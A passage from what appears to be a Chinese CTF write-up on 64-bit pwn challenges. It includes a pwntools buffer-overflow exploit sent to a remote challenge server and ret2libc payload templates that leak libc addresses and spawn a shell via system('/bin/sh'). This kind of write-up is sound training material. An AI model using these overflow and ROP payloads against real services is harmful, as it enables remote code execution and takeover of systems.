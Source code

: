 ### 堆栈平衡 64 

64位的pwn05
所以和上一题是差不多的
不同的是这里要平衡堆栈

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005160148927.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

push rbp ：将bp寄存器的值压入栈中 
然后再看偏移

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005160422216.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

这里32位是4，而64位则是8

exp：

```python
from pwn import *

p=remote('111.231.70.44',28070)

payload='a'*(0xc+8) + p64(0x400577)+ p64(0x400577)

p.sendline(payload)

p.interactive()
```

## 7.pwn07

### libc 64

先checksec一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012192733970.png#pic_center)

这题和pwn03差的不多
pwn03是32bit的，这题是64bit的
64比32需要的payload多了一个pop rdi,ret

```python
32位：
payload："a"*offset + p32(plt) + p32(ret_addr) + p32(got)
getshell: "a"*offset + p32(system_addr) + "AAAA" + p32(str_bin_sh)
64位：
payload："a"*offset + p64(pop_rdi) + p64(got) + p64(plt) + p64(ret_addr)
getshell: "a"*offset + p64(ret) + p64(pop_rdi) + p64(str_bin_sh)
```
`ROPgadget --binary [file name]`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012194105578.png#pic_center)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201012194138780.png#pic_center)
